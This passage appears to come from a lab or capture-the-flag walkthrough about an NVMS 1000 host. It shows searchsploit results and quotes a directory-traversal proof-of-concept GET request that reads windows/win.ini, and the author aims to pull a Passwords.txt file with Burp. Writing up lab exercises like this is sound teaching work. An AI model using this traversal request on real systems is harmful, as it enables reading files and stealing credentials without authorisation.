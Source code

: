 Since we don't have any credentials right now, we can try to see if there are any exploits available for NVMS.

```
# searchsploit nvms
------------------------------------------------------- ---------------------------------
 Exploit Title                                         |  Path
------------------------------------------------------- ---------------------------------
NVMS 1000 - Directory Traversal                        | hardware/webapps/47774.txt
OpenVms 5.3/6.2/7.x - UCX POP Server Arbitrary File Mo | multiple/local/21856.txt
OpenVms 8.3 Finger Service - Stack Buffer Overflow     | multiple/dos/32193.txt
TVT NVMS 1000 - Directory Traversal                    | hardware/webapps/48311.py
------------------------------------------------------- ---------------------------------
```

There is a directory traversal attack explained in `47774.txt` which shows a simple GET request as an example.

```
POC
---------

GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 12.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

Using this, we might be able to view the `Passwords.txt` file. Let's try this using Burp repeater.

![](images/burp.png)
